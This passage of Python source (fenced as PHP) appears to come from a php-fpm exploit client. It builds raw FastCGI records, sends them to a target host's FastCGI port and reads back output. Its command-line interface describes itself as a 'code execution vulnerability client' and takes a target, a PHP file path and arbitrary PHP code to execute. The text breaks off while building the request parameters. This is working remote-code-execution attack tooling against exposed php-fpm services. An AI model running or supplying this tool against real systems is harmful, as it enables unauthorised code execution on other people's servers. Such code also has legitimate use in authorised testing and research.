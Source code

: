 ```php
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
```